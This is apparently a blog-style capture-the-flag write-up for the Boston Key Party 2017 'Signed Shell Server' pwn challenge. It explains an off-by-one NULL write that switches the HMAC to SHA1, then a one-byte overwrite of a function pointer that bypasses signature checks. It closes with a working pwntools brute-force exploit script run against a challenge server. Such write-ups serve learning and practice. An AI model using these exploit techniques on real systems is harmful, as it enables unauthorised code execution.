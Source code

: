 ```yaml
---
layout: post
title: "Boston Key Party CTf 2017: Signed Shell Server (pwn 200)"
author: f0rki, creed
categories: writeup
tags: [cat/pwn]
---
```


* **Category:** pwn
* **Points:** 200

## Write-up

You can do two things:

1. Sign a command
2. Execute a signed command

```
Welcome to Secure Signed Shell
1) sign command
2) execute command
>_ 1
what command do you want to sign?
>_ ls
signature:
0fcc9e22ff4cec3f5afbaf5906dba086
```

So we can see that the challenge signs with md5 by default!

## out-of-bounds NULL byte write -- force switch to sha1 

They use a HMAC based on md5 or sha1 depending on a global flag (set based on
argc). We call this `use_md5`. This is a byte sized varialbe that is placed
right behind the `global` buffer, which has size `0x100`. We can overwrite the
`use_md5` flag with a zero byte with the calls:

```
i = read(global, 0x100, 0); // send exactly 255 bytes
global[i] = 0;              // out of bounds write to the use_md5 flag
```

This snippet of code is repeated in both the `sign_it` and `execute_it`
functions.

## overwrite least significant byte of a function pointer

There is a off-by-one error, which allows us to overwrite the last byte of the
first function pointer. We are targeting the `deny_ptr` in this struct:

```
struct exec_guy {
    char hash[20];
    void (*deny_ptr)(char*);
    void (*success_ptr)(char*);
}
```

At the start of the `execute_it` function, `exec_guy` will be set to either
`m_exec_guy` or `s_exec_guy` depending on whether md5 or sha1 is used. If the
`use_md5` flag is true, the `exec_guy` is set to 
`s_exec_guy + 1 == m_exec_guy`. If we switch to using SHA1 afterwards, the HMAC
is copied to `exec_guy`, which is actually `s_exec_guy + 1`. So there is one
byte too less available for a full SHA1 HMAC and it will overflow into the
first byte of the `deny_ptr` field.

Since we're on little endian, this means we can control the least significant
byte of the function pointer. If we change the `deny_ptr` to the `success_ptr`
we effectively bypass the signature check.

```
[0x004010a0]> afl~command
0x00400d36    1 0    -> 37   sym.deny_command
0x00400d5b    1 0    -> 27   sym.exec_command
```

So we have to find a HMAC, whose last byte is `0x5b`. So first we checked
whether one of the HMACs we could legitimately obtain would fit our purposes.
We can do this by switching to SHA1 with an overlong command in the `sign_it`
function and then obtain the HMACs:

```
[*] 'ls' -> '4b0eef0a2c6a48fd0f52460231fe61bbfa8f314c' --> 0x400d4c     <-- printf something
[*] 'pwd' -> 'bf34cf2a14f5bbde6c75da9c6ba421fd57772d68' --> 0x400d68    <-- this jumps inside the right function at least, but seems to break
[*] 'id' -> 'e1b428253b9c847348c522e27d00a151f7db9458' --> 0x400d58     <-- nop; leave;ret
[*] 'whoami' -> 'ce6bd6b5229cf202a96ece2b36763e1adec566d1' --> 0x400dd1 <-- somewhere inside init_key
```

So none of those did work out in the end. The `pwd` HMAC looked pretty
promising as it triggers a jump into the `exec_command` function. But then crap
is loaded into the registers and it fails.

To use one of these commands we need to still send an overlong line, with
contents are not hashed. The HMAC covers only up to the first NULL byte, so we
can send for example:

```python
"ls\n" + "\x00" * 253
```

This allows us to trigger the overflow, with a known HMAC.

## exploit recap

0. Call `execute_it`
1. First `exec_guy` is set to `m_exec_guy`, because `use_md5` is true.
2. Use off-by-one error to overwrite the `use_md5` flag with 0, so that SHA1 
   will be used. `exec_guy` is still set to `m_exec_guy`.
3. `memcpy` call at `0x00401261` will then overwrite the least significant 
   byte of the first function pointer.
    - The `src` of `memcpy` is the computed SHA1 HMAC
    - We need to find a HMAC which ends in `0x5b`
4. The function pointers are always loaded relative to the `m_exec_guy` so we 
   can use them safely even if we switched to SHA1
5. shell? shell! (or just cat flag)

In the end we just opted to bruteforce, until we hit a byte that worked. We
tried with a bunch of commands:

```
cat flag; echo <random stuff>
```

Eventually we got a working byte and the flag.

```python
from pwn import *  # noqa
import string
import random 

velf = ELF("./sss")
# this is the byte we'd need...
last_byte = velf.symbols['exec_command'] & 0xff
log.info("last byte of exec_command 0x{:x}".format(last_byte))

env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libcrypto.so.1.0.0")}

def make_vp():
    #return process("./sss_dealarmed", env=env)
    return remote("54.202.7.144", 9875)

# less verbosity for pwntools
context.log_level = "error"
while True:
    cmd = "cat flag; echo " + "".join(random.sample(string.letters, 5))
    vp = make_vp()
    # gdb.attach(vp, gdbscript)

    try:
        # now overflow into the use_md5 flag
        # which triggers a buffer overflow into the fptr
        vp.recvuntil(">_")
        vp.sendline("2")
        vp.recvuntil(">_")
        c = "{}\n\x00".format(cmd)
        c += "\x00" * (256 - len(c))
        vp.send(c)
        vp.recvuntil(">_")
        vp.sendline("wurscht")
        line = vp.recvrepeat(timeout=0.5)
        log.info("got line: " + repr(line))

    except:
        pass
    
    vp.close()
```
